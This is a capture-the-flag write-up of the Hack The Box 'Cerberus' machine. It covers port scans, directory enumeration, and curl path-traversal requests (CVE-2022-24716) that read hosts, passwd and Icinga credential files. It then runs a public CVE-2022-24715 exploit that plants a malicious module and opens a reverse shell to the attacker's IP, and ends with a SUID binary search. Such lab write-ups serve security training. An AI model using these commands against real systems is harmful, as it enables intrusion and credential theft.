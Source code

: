   ![image](https://user-images.githubusercontent.com/87700008/226189420-afa389ca-2fb9-4439-8223-14edf49a43f2.png)

https://app.hackthebox.com/machines/534

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Enumeration :

### Port scanning:

Started with a quick rustscan :

    sudo rustscan -a 10.10.11.205 -- -sC -sV -T4 -vv -oN cerberus_nmap
    
After scanning I found only 1 open port '8080'.

```
PORT     STATE SERVICE REASON         VERSION
8080/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://icinga.cerberus.local:8080/icingaweb2
```

In the port scan results I found a domain, running on port 8080 : "icinga.cerberus.local:8080". So I added the domain to /etc/hosts file.

Next I tried UDP scanning on the box to collect some for info & I found 3 more open ports : 53, 88, 123.

```
Nmap scan report for icinga.cerberus.local (10.10.11.205)
Host is up, received echo-reply ttl 127 (0.17s latency).
Scanned at 2023-03-20 13:10:31 EDT for 19558s
Not shown: 997 open|filtered ports
Reason: 997 no-responses
PORT    STATE SERVICE      REASON               VERSION
53/udp  open  domain       udp-response ttl 127 (generic dns response: NOTIMP)
| fingerprint-strings: 
|   NBTStat: 
|_    CKAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
88/udp  open  kerberos-sec udp-response         Microsoft Windows Kerberos (server time: 2023-03-20 17:25:46Z)
123/udp open  ntp          udp-response         NTP v3
| ntp-info: 
|_  receive time stamp: 2023-03-20T18:47:26
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-UDP:V=7.91%I=7%D=3/20%Time=6418970F%P=x86_64-unknown-linux-gnu%r
SF:(DNSStatusRequest,C,"\0\0\x90\x04\0\0\0\0\0\0\0\0")%r(NBTStat,32,"\x80\
SF:xf0\x80\x82\0\x01\0\0\0\0\0\0\x20CKAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\0\0!\
SF:0\x01");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 13s
```

### Sub-domain/directory enum:

After checking the results of port scanning I moved onto the sub directory enumeration & searched for any vulnerable sub directory/services but didn't found any as almost all of the services required authentication :

    gobuster dir -u http://icinga.cerberus.local:8080/icingaweb2 -t 20 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o cer_web -b 404,403 -k
    
![image](https://user-images.githubusercontent.com/87700008/226830002-a94919c5-1bc7-4abe-8486-8071708b35c4.png)

I then started checking the website & the services running on it. I checked what is Icinga & found that : "_Icinga is a monitoring system which checks the availability of your network resources, notifies users of outages, and generates performance data for reporting._"

![image](https://user-images.githubusercontent.com/87700008/226831317-9aea70a7-ea04-40ca-b1db-56a544a3cf79.png)

I tried for default credentials but that didn't worked, I checked HTML source code & found one JavaScript file in it but that is also not leaking any info.

Then I searched for the potential exploits available for Icinga & found this [blog](https://www.sonarsource.com/blog/path-traversal-vulnerabilities-in-icinga-web).
The blog explains Path Traversal vulnerability (CVE-2022-24716) that can be abused to disclose any file on the server. It can be exploited without authentication and without prior knowledge of a user account.

### Initial access:

I followed the blog & checked whether the website is vulnerable or not. So I used the below command with curl to check for response & received the response with hosts info :

    curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/hosts
    
```
127.0.0.1 iceinga.cerberus.local iceinga
127.0.1.1 localhost
172.16.22.1 DC.cerberus.local DC cerberus.local

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

From the hosts results I observed the IP : "172.16.22.1" which is commonly associated with the docker container. So, it seems like the box is running the docker inside it, We can note that 172.16.22.1 is hosting the DC.

Then checked for the /etc/passwd file & found 1 user in it "matthew" :

![image](https://user-images.githubusercontent.com/87700008/226844706-2ec364eb-b0cc-4b81-ac16-869c49349beb.png)

Next I checked for the Icings web [documentation](https://icinga.com/docs/icinga-web/latest/) & checked for more configuration & authentication related files :

```
$ curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/config.ini

[global]
show_stacktraces = "1"
show_application_state_messages = "1"
config_backend = "db"
config_resource = "icingaweb2"
module_path = "/usr/share/icingaweb2/modules/"

[logging]
log = "syslog"
level = "ERROR"
application = "icingaweb2"
facility = "user"

[themes]

[authentication]
```

```
$ curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/resources.ini

[icingaweb2]
type = "db"
db = "mysql"
host = "localhost"
dbname = "icingaweb2"
username = "matthew"
password = "[**********]"
use_ssl = "0"

[teset1]
type = "ssh"
user = "matthew"
private_key = "/etc/icingaweb2/ssh/matthew"
```

```
$ curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/roles.ini

[Administrators]
users = "matthew"
permissions = "*"
groups = "Administrators"
unrestricted = "1"
```

```
$ curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/authentication.ini

[icingaweb2]
backend = "db"
resource = "icingaweb2"
```

With the gathered credentials of matthew from the resources.ini, I logged into Icinga web portal :

![image](https://user-images.githubusercontent.com/87700008/226851350-7a63d379-7e88-4981-b988-43c0414f30be.png)

As of now I have logged into the website, I can check more info about it, which I wasn't able to do at the time port sub directory enumertaion. I checked for the /about section & found that the Icinga is running on web version 2.9.2 :

![image](https://user-images.githubusercontent.com/87700008/226852899-20d37e43-dd06-4a0a-b3b5-179062e7b19e.png)

Searching for the exploits I observed that the service version is vulnerable to [CVE-2022-24715](https://nvd.nist.gov/vuln/detail/CVE-2022-24715) which affects some unknown processing of the component SSH Resource File Handler & leads to the execution of arbitrary PHP code from the administration interface. 

The best pat is that "matthew" is part of the "Administrators" group which fulfills the need to exploit the vulnerability.

### RCE:

For the RCE I was searching for the exploit and found this [Github Repo](https://github.com/JacobEbben/CVE-2022-24715). Using the script exploit.py & following the process from this [blog](https://www.sonarsource.com/blog/path-traversal-vulnerabilities-in-icinga-web) I got the revershell :

```
python3 exploit.py -t http://icinga.cerberus.local:8080/icingaweb2/ -I 10.10.14.80 -P 53 -u matthew -p ****************** -e /home/kali/Downloads/HTB/cerberus/private_cerbereus -x http://127.0.0.1:8080/

[INFO] Attempting to login to the Icinga Web 2 instance...
[INFO] Attempting to upload our malicious module...
[SUCCESS] The payload appears to be uploaded successfully!
[INFO] Modifying configurations...
[INFO] Attempting to enable the malicious module...
[INFO] Trying to trigger payload! Have a listener ready!
[SUCCESS] It appears that a reverse shell was started!
[INFO] Removing malicious module file...
[ERROR] An error occurred while cleaning up modified configurations!
[ALERT] Manual removal of the exploit remnants is highly recommended!
HTTPConnectionPool(host='127.0.0.1', port=8080): Read timed out. (read timeout=2)
[ALERT] In the process of exploitation, the application logging has been turned off. Log in manually to reset these settings!
```

![image](https://user-images.githubusercontent.com/87700008/226912820-11952123-32c6-4115-8490-7bf5b72fd697.png)

### User.txt:

Now, I am inside the machine with active & stable reverse shell but I don't have access for the Matthews folder. Also, when I checked the machine IP I observed that it's starting from 172.16.X.X which in regular cases associated with the docker containers. So, it's clear that right now I am in the container environment.

![image](https://user-images.githubusercontent.com/87700008/226994767-14f91702-bcb3-4132-864a-d5e7dc11d002.png)

I started with the manual enumeration & checked for the SUID binaries on the machine & I observed one unusual binary 'firejail'

```
find / -type f -perm -u=s 2> /dev/null 
```

![image](https://user-images.githubusercontent.com/87700008/226995578-4b6c91ef-7772-4307-a5bd-a3c18a15ba7a.png)
